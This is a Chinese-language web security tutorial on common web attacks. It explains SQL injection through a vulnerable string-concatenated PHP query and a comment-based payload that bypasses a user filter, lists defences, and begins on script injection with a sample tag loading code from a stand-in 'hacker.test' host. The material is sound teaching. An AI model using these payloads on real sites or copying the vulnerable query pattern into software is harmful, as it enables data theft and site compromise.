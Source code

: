 [阮一峰：如何有效防范DDOS攻击](https://www.toutiao.com/a6571401974091088397/)
[Web安全：最常见的Web安全攻击](https://www.toutiao.com/a6478448456762393101/)





![img](https://gitee.com/funet8/blogimage/raw/master/picgo/20191129E7CfKX.jpg)

 防范羊毛党：运营同学必看的防薅羊毛技术完全解读  https://www.cnwebe.com/articles/60403.html



# WEB攻击

## 1.SQL注入

### 什么是SQL注入

SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息。 [百度百科] 



网站都大多选择PHP、.Net、 Java、 ROR、 Python、NodeJS等编程语言搭建网站的后台，选择Mysql、 Oracle、SQL Server等数据库来存储数据。SQL注入就是针对的这样的网站发起的攻击。假如有一个列表页面，请求URL是这样的：

```
https://xxx.xxx/list.php?q=finished
```

通过这个url可以获取这个用户列表下面所有已经完成的订单。那么我们可以猜想这样的页面后端对应的程序是这样写的：

```
$sql = ‘select * from orders where status=\’’ . status. ‘\’ and userId = \‘’ . userId;
```

语句本身没有什么问题，后面加上了过滤条件userId只能获取这个用户自己的订单。可是，如果我们这样发起请求：

```
https://xxx.xxx/list.php?q=finished‘--
```

最终拼接后的语句可能就变成了这个样子：

```
select * from orders where status=‘finished’—and userId=’xxxx’;
```

由于“—”在数据库里面起到的注释作用，所以“and userId=’xxxx’” 这个过滤条件是不会起作用的。这个语句执行的效果就是黑客获取了这个网站所有已经完成的订单数据。

### 防范sql注入
- 做好参数检验。
- sql传参的地方一定要做sql escape，对sql敏感字符进行转义。
- 不要直接拼接字符串。


## 2.脚本注入
脚本注入只是个表现形式，例如你的网页中出现了一段莫名的脚本：
```
<script src=”http://hacker.test/hack.js”></script> 这就是一个典型的脚本注入。
```
